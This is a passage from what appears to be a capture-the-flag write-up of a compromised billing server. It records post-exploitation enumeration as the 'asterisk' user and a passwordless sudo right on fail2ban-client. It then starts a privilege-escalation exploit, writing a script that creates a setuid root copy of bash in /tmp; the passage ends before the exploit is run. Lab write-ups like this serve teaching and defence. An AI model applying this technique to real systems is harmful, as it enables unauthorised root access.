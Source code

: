 **User Enumeration:**

```bash
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)

```

The shell was running as the unprivileged user `asterisk`.

---

## 🔍 Directory Inspection and Application Context

The compromised system appears to host a billing application:

```bash
cd /var/www/html/mbilling/lib
ls
GoogleAuthenticator  PlacetoPay  anet  composer.json  composer.lock
gerencianet          icepay      mercadopago         stripe

```

Numerous payment gateway modules (e.g., Stripe, MercadoPago) were present, indicating the application handles sensitive transactions.

---

## 🔒 Exploration of `fail2ban` Misconfiguration

User `asterisk` had the ability to execute `fail2ban-client` with **sudo and no password**, as verified:

```bash
sudo -l
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client

```

---

## ⚙️ Exploit Strategy: Abusing `fail2ban-client` Custom Action

The `/etc/fail2ban/` directory was copied to `/tmp/fail2ban` using `rsync`:

```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/

```

A malicious script was created:

```bash
cat > /tmp/script <<EOF
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script

```
